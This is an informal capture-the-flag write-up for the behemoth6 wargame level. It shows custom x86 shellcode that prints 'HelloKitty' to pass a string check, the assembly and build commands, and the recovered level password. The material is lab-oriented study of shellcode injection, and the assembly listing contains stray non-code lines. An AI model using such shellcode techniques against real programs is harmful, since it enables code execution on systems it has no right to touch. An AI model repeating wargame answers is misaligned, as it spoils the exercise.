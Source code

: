 we see in disassebmly of behemoth6 that if strcmp is true we get shell
we see that it comperes to:
HelloKitty == 
and we see that behemoth6 executes behemoth6_reader
so we go to behemoth6_reader:
we see call *%eax --> executing our code from shellcode.txt
writing in c, it says: write your own shellcode
we dig in and see that if we use 0x0b in our code it says: write your own 
shellcode, so we have to write in assembly:
```assembly
[SECTION .text]

global _start

_start:
    jmp short getmsg

printmsg:
    xor eax,eax
    xor ebx,ebx
    xor ecx,ecx
    xor edx,edx
    printing "HelloKitty";
    mov al, 0x4
    mov bl, 0x1
    pop ecx
    mov dl, 0xa
    int 0x80

    printing "\n";
    xor eax, eax
    mov al, 0x1
    xor ebx,ebx
    int 0x80

getmsg:
    call printmsg
    db 'HelloKitty', '$'
```
we compile that asm:
```sh
nasm -f elf kitty.asm -o kitty.o
ld -m elf_i386 kitty.o -o kitty
```

we try that, but still get write your own shellcode
so we cat it and see additional information about the run env that we dont 
need, so we copy just the opcodes with objdump -d kitty and echoing the opcodes

at last, it works and we get:
baquoxuafo
